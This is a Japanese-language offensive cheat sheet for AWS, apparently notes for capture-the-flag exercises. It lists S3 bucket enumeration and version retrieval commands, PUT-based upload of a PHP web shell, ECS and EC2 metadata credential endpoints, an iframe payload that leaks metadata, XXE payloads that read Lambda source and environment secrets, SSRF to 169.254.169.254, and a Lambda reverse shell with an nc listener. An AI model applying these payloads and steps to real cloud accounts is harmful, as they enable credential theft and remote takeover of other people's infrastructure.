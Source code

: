 
## S3
- http://*.s3.amazonaws.com/を開いてみてディレクトリリスティングされたら脆弱
- ドメイン名　＝　バケット名
    - nslookupなどでサービス特定
    - ドメイン名、s3リージョンを使ってバケットのURLを特定
- エンドポイント
    - 仮想ホスト形式
        - http://\<bucket-name\>.s3.amazonaws.com
        - http://\<bucket-name\>.s3-\<region\>.amazonaws.com
    - path形式
        - http://s3.amazonaws.com/\<bucket-name\>
        - http://s3-<region>.amazonaws.com/\<bucket-name\>
- バージョニング
    - aws s3api list-object-versions --bucket \<bucket-name\> --profile \<prifile\> 過去バージョン列挙
    - aws s3api get-object --bucket \<bucket-name\>  --key \<↑で拾ったやつ> --version-id \<↑で拾ったやつ\> --profile \<profile\>
--
version id MO4Xz6sB8DONDjCid6ideiRgfdyywcSv profile finddata3
### アップロード
 - PHPを挙げてウェブシェルにする
### バケットネームがわかる
- http://s3.amazonaws.com/\<bucket-name\> でとりあえずアクセス
    - 見れたらOK
    - packageというファイルがあれば、http://s3.amazonaws.com/\<bucket-name\>/packageって感じでDL可能
    -GETが許可されていなくても　curl -X PUT \<URL> でOK
- バケットネームわからんくても応答ヘッダに入ってるかも

## ECS
- ECSのメタデータにアクセス
    - http://169.254.179.2/v2/metadata
    - http://169.254.170.2/v2/credentials/\<random-uuid\>
- ECSに付与されたIAMロールのクレデンシャル
    - 環境変数の ECS_CONTAINER_METADATA_URI を探す
    - .bashrcに入ってる
    - ファイルにメタデータパスを埋め込んでウェブサービスにアップロード
      - \<body>\<iframe src="http://169.254.170.2/v2/metadata" width="500" height="1000"\>

## Lambda
- クレデンシャルは環境変数
    - AWS_SESSION_TOKEN
    - AWS_SECRET_ACCESS_KEY
    - AWS_ACCESS_KEY_ID
### XXE
- XMLでソースコードを開示させる
    - \<!DOCTYPE loadthis \[\<"ELEMENT loadthis ANY\>
    - \<!ENTITY somefile SYSTEM "file:////var/task/handler.py">]>
    - \<loadthis>\&somefile;\</loadthis\>
- XMLで環境変数を見る
    - /proc/self/environ
- Lambda リバースシェル
    - 関数をcliで調べる
    - wget http://<問題サーバー>/2015-03-31/functions/billing/code -O code.zip
    - aws lambda update-function-code でリバースシェルを上げて動かす
    - nc- nlvp \<port-num>
### SSRF
- \<?xml version="1.0" encoding="UTF-8"?>
- \<!DOCTYPE stockCheck
- \[ \<!ENTITY foo SYSTEM "http://169.254.169.254/latest/meta-data/""\> \]\>